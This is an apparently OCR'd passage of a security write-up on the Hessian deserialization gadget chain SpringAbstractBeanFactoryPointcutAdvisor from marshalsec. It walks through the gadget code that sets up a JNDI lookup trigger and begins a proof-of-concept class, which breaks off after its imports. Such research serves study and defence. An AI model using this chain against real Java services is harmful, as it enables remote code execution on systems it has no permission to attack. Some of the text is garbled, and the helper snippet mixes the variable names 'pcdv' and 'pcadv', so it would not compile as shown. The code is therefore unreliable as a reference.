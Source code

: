 <div align=center><img src="./images/6.png"></div>

## SpringAbstractBeanFactoryPointcutAdvisor
### Construct Analysis
 - Let's first look at the SpringAbstractBeanFactoryPointcutAdvisor.java` given in marshalsec. Here, like `SpringPartiallyComparableAdvisorHolderGadget`, or pass the incoming `jndiUrl` into the SpringUtil#makeJNDITrigger` method, and then call the `SpringUtil#makeBeanFactoryTriggerBFPA` method.

```java
public interface SpringAbstractBeanFactoryPointcutAdvisor extends Gadget {

    @Primary
    @Args ( minArgs = 1, args = {
        "jndiUrl"
    }, defaultArgs = {
        MarshallerBase.defaultJNDIUrl
    } )
    default Object makeBeanFactoryPointcutAdvisor ( UtilFactory uf, String[] args ) throws Exception {
        String jndiUrl = args[ 0 ];
        return SpringUtil.makeBeanFactoryTriggerBFPA(uf, jndiUrl, SpringUtil.makeJNDITrigger(jndiUrl));
    }
}
```

 - Follow up on the `SpringUtil#makeBeanFactoryTriggerBFPA` method, first create a `DefaultBeanFactoryPointcutAdvisor` instance, then call the `setBeanFactory` and `setAdviceBeanName` methods of the instance, and finally call the `UtilFactory#makeEqualsTrigger` method.

```java
public static Object makeBeanFactoryTriggerBFPA ( UtilFactory uf, String name, BeanFactory bf ) throws Exception {
    DefaultBeanFactoryPointcutAdvisor pcdv = new DefaultBeanFactoryPointcutAdvisor();
    pcadv.setBeanFactory(bf);
pcdv.setAdviceBeanName(name);
    return uf.makeEqualsTrigger(pcadv, new DefaultBeanFactoryPointcutAdvisor());
}
```

 - Follow up on the `UtilFactory#makeEqualsTrigger` method, then call `JDKUtil#makeMap`, and then the same processing process as `RomeGadget`.

```java
default Object makeEqualsTrigger (Object tgt, Object sameHash ) throws Exception {
    return JDKUtil.makeMap(tgt, sameHash);
}
```

### POC
```java
package org.h3rmesk1t.Hessian;

import com.caucho.hessian.io.*;
import org.apache.commons.logging.impl.NoOpLog;
import org.springframework.aop.support.DefaultBeanFactoryPointcutAdvisor;
import org.springframework.jndi.support.SimpleJndiBeanFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

```